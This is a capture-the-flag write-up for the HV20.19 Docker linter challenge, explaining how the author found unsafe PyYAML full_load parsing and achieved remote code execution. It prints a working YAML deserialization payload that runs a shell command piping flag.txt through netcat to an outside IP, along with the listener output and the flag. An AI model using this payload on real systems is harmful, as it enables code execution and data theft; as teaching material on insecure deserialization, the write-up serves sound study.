 # HV20.19 Docker Linter Service

For this challenge, we get access to a website that validates some (docker related) configuration files using various linters (`Dockerfile`, `docker-compose.yml` and `.env`). The content of the files can either be specified via an input field or using a file upload. Our goal is to get remote code execution (pop a reverse shell) to get the flag.

From the response headers of the webserver, we can find out that the backend was probably written in _Flask_ (_Python3_ + _Werkzeug_). By playing with the different validation options and submitting a combination of valid and invalid inputs, I was able to get an overview of the tools involved within the linting process:

```
ENV
- dotenv-linter

COMPOSE
- Basic syntax check
- yamllint
- docker-compose

DOCKERFILE
- hadolint
- dockerfile_lint
- dockerlint.js
```

I tried to check for known vulnerabilities / CVE's of these tools but could not find any promising tools. Therefore, I started to focus on the file upload mechanism and tried to perform some sort of command injection or path traversal attack. However, it seemed like the upload was built in a secure way.

At this point I felt a bit lost, so I tried to randomly fuzz the inputs and got an interesting error while submitting some invalid input for the `docker-compose.yml`:

```
Basic syntax check
Linter exited with code 1
while parsing a tag
  in "docker-compose.yml", line 1, column 1
expected URI, but found '\n'
  in "docker-compose.yml", line 1, column 3
```

It seems like the basic syntax check step parses the YAML file in python, so I started to google for some common attacks when parsing YAML in python and found an interesting attack that exploits the `full_load` function of the _PyYAML_ package. I searched for a couple of payloads and after a while I found one that seemed to work and allowed me to execute commands on the remote machine. To get the output of my commands, I simply piped them into netcat and sent the output to my machine. Thankfully, it was easy to find the `flag.txt` file since it was saved in the same folder as our vulnerable program. Using the following YAML file I was able to receive the content of the flag:

```yaml
- !!python/object/new:str
  args: []
  state: !!python/tuple
    - "import os; os.system('cat flag.txt | nc 10.13.0.26 8888')"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
```

```bash
➜  19 git:(main) ✗ nc -lnvvp 8888
listening on [any] 8888 ...
connect to [10.13.0.26] from (UNKNOWN) [152.96.7.3] 46478
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
 sent 0, rcvd 46
```

**Flag:** HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
